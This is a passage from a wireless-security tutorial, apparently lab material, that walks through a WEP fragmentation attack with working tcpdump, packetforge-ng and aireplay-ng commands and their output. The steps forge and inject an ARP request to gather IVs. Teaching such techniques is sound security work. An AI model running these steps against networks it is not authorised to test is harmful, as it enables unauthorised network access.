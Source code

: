 A successful fragmentation attack will display an output indicating that the PRGA `xor` file has been saved. Afterward, we need to analyze the capture file to identify the source and destination IP addresses, as well as the MAC addresses. This can be accomplished with `tcpdump`.

```shell
tcpdump -s 0 -n -e -r replay_src-0805-191842.cap

reading from file replay_src-0805-191842.cap, link-type IEEE802_11 (802.11), snapshot length 65535
13:20:06.328586 CF +QoS BSSID:a2:bd:32:eb:21:15 SA:42:e9:11:39:88:ae DA:a2:bd:32:eb:21:15 LLC, dsap SNAP
(0xaa) Individual, ssap SNAP (0xaa) Command, ctrl 0x03: oui Ethernet (0x000000), ethertype IPv4 (0x0800),
length 67: 192.168.1.129.63870 > 192.168.1.1.53: 34696+ A? outlook.office365.com. (39)

```

Once we have the required addresses, we can forge an ARP request using `packetforge-ng`. In this command, we specify the access point's MAC address with `-a`, the station’s MAC address with `-h`, the access point’s IP address with `-k`, the station’s IP address with `-l`, the location and name of our PRGA file with `-y`, and finally the output name for the forged ARP request capture file with `-w`.

```shell
packetforge-ng -0 -a A2:BD:32:EB:21:15 -h 42:E9:11:39:88:AE -k 192.168.1.1 -l 192.168.1.129 -y fragment-0805-191851.xor -w forgedarp.cap

Wrote packet to: forgedarp.cap

```

If the packet we captured does not contain source or destination IP addresses, we can set the **-k** (access point's IP) option to 255.255.255.255 and the **-l** (station's IP) option to 255.255.255.255. This allows us to handle packets without specified IP addresses by designating them as broadcast addresses.

Once the forged ARP request is written into `forgedarp.cap`, we can inject it into the target network to generate initialization vectors (IVs). One common method for this is using the Aircrack Suite's [Interactive Packet Replay](https://www.aircrack-ng.org/doku.php?id=interactive_packet_replay).

We do so by specifying the interactive packet replay mode with `-2`, the name and location of our forged packet with `-r`, the source MAC address to inject with `-h` and our interface in monitor mode with `wlan0mon` as shown below.

```shell
aireplay-ng -2 -r forgedarp.cap -h 42:E9:11:39:88:AE wlan0mon

The interface MAC (02:00:00:00:01:00) doesn't match the specified MAC (-h).
        ifconfig wlan0mon hw ether 42:E9:11:39:88:AE

        Size: 68, FromDS: 0, ToDS: 1 (WEP)

              BSSID  =  A2:BD:32:EB:21:15
          Dest. MAC  =  FF:FF:FF:FF:FF:FF
         Source MAC  =  42:E9:11:39:88:AE

        0x0000:  0841 0201 d8d6 3deb 29d5 42e9 1139 88ae  .A....=.).B..9..
        0x0010:  ffff ffff ffff 8001 369f d800 5899 17e1  ........6...X...
        0x0020:  4841 7fed f893 7419 9d0f d368 9341 f130  HA...t....h.A.0
        0x0030:  c021 668c 9f07 a5ec 15be 3583 df2c b474  .!f.......5..,.t
        0x0040:  cf84 1ddb....

Use this packet ? y

Saving chosen packet in replay_src-0805-192042.cap
You should also start airodump-ng to capture replies.

Sent 1400 packets...(499 pps)

```